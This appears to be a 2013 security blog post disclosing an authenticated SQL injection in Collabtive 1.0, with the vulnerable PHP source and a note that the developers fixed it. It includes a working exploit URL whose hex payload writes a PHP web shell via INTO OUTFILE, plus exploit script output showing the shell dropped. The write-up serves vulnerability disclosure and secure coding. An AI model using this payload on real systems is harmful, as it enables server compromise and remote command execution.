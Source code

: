 ```yaml
---
categories:
- sqli
- vulnerability
- collabtive
comments: false
date: "2013-06-21T22:40:53Z"
title: Collabtive 1.0 - SQLi
---
```


[Collabtive](http://collabtive.o-dyn.de/) is a web-based collaboration tool for project management, developed in PHP.  The latest version, Collabtive 1.0, is vulnerable to remote authenticated SQL injection.  Sourceforge page can be found [here](http://sourceforge.net/projects/collabtive/?source=directory), which appears to be clocking in just over 1000 downloads a week.  This issue was reported privately to the developers, and fixed in their Github [repository](https://github.com/philippK-de/Collabtive).

User profiles are viewed/managed by manageuser.php, and upon loading a profile, runs the following:

```
 if (!empty($start) and !empty($end)) {
        $track = $tracker->getUserTrack($id, $fproject, $taski, $start, $end);
    } elseif (is_array($fproject)) {
        foreach ($fproject as $fpro) {
            $ptrack = $tracker->getUserTrack($id, $fpro, $taski, $start, $end);
            if (!empty($ptrack)) {
                foreach ($ptrack as $mytrack) {
                    array_push($track, $mytrack);
                }
            }
        }
    } 
```

Of interest is the `getUserTrack` function, as follows:

```
function getUserTrack($user, $project = 0, $task = 0, $start = 0, $end = 0 , $lim = 50)
    {
        global $conn;
        $user = (int) $user;
        $project = (int) $project;
        $lim = (int) $lim;

        if ($project > 0) {
            $sql = "SELECT * FROM timetracker WHERE user = $user AND project = $project";
            $num = "SELECT COUNT(*) FROM timetracker WHERE project = $project AND user = $user";
            $order = " ORDER BY ended ASC";
        } else {
            $sql = "SELECT * FROM timetracker WHERE user = $user";
            $num = "SELECT COUNT(*) FROM timetracker WHERE user = $user";
            $order = " ORDER BY ended ASC";
        }

        if ($task > 0) {
            $sql .= " AND task = $task";
            $num .= " AND task = $task";
        }

        if ($start > 0 and $end > 0) {
            $start = strtotime($start);
            $end = strtotime($end . " +1 day");
            $end = $end - 1;
            $sql .= " AND ended >=$start AND ended<=$end ";
            $num .= " AND ended >=$start AND ended<=$end ";
        }

        if ($num) {
            $num = $conn->query($num)->fetch();
            $num = $num[0];
        } else {
            $num = 0;
        }
```

The start/end/task variables are not cast to integers, and are not sanitized.  Sanitization wouldn't do much here, anyways, as the variables are appended without quotations, so we need only space queries out from input.  For example, `task=1 UNION SELECT passwords FROM user`.  Thus we highlight the importance of parameterized queries.  Just use them.

This can be exploited with a simple UNION query to drop a shell:

```
http://192.168.1.219/collabtive/manageuser.php?action=profile&id=1&task=1%20UNION%20SELECT%200x3c3f7068702073797374656d28245f4745545b227272225d293b3f3e%20INTO%20OUTFILE%20%27hcked%27;&project=1
```

Exploiting:

```
root@jali:~/exploits# python collabtive_10_sqli.py -i 192.168.1.83 -P vlh4soc9k2t5vnp6s5d8glga17
[!] Dropping web shell on 192.168.1.83...
[!] Shell dropped.  http://192.168.1.83/collabtive/gkre4.php?rr=ls
```

{{< figure class="center" src="http://1.bp.blogspot.com/-eVNRT30tTOU/Ub8_vbq_ZiI/AAAAAAAAAgM/ZssKBHVVMNs/s640/collabtive_10_sploit.jpg" >}}

[Exploit](http://www.exploit-db.com/exploits/26410/)
